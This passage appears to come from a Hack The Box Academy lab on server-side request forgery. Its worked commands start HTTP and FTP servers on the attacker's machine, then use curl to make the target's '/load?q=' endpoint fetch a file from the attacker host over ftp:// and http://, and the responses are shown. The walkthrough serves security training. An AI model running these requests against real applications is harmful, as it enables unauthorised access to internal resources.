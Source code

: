 #### Start Python HTTP Server

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ python3 -m http.server 9090
```

3. Inside the directory where index.html is located, start an FTP Server via the following command

#### Start FTP Server

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ sudo pip3 install twisted
Pangulin@htb[/htb]$ sudo python3 -m twisted ftp -p 21 -r .
```

4. Retrieve index.html through the target application using the `ftp` schema, as follows

#### Retrieving a remote file through the target application - FTP Schema

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:21:09 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```

5. Retrieve index.html through the target application using the `http` schema, as follows

#### Retrieving a remote file through the target application - HTTP Schema

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:26:18 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```
